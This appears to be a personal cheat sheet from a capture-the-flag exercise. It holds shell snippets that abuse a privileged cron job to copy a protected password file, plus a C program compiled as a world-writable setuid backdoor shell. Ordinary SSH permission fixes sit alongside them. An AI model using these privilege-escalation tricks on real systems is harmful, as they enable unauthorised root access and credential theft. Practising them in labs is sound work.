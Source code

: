 ### Exploiting crontab - If a script is running with higher privileges
```sh
echo "cat /challenge/app-script/ch4/.passwd >/tmp/cracked" > \
    cron.d/go && chmod a+x cron.d/go \
    && sleep 60 && \
    cat /tmp/cracked
```

### Fix broken SSH permissions for client

```sh
chmod 700 ~/.ssh
chmod 644 ~/.ssh/authorized_keys
chmod 644 ~/.ssh/known_hosts
chmod 644 ~/.ssh/config
chmod 600 ~/.ssh/id_rsa
chmod 644 ~/.ssh/id_rsa.pub
chmod 600 ~/.ssh/github_rsa
chmod 644 ~/.ssh/github_rsa.pub
chmod 600 ~/.ssh/mozilla_rsa
chmod 644 ~/.ssh/mozilla_rsa.pub
```

### Get user ID

```sh
cat /etc/passwd | grep shell4cracked
```

### C program to get a shell

```sh
#include <stdlib.h>
#include <unistd.h>

int main() {
    setresuid(1028, 1028, 1028);
    setresuid(1028, 1028, 1028);  
    system("/bin/bash");
    return 0;
}

#### Compile and prepare

gcc -o /tmp/pwned /tmp/._cron/shell.c
chmod +s /tmp/pwned   
chmod a+rwx /tmp/pwned
```

### If you need to kill a specific process using a given port
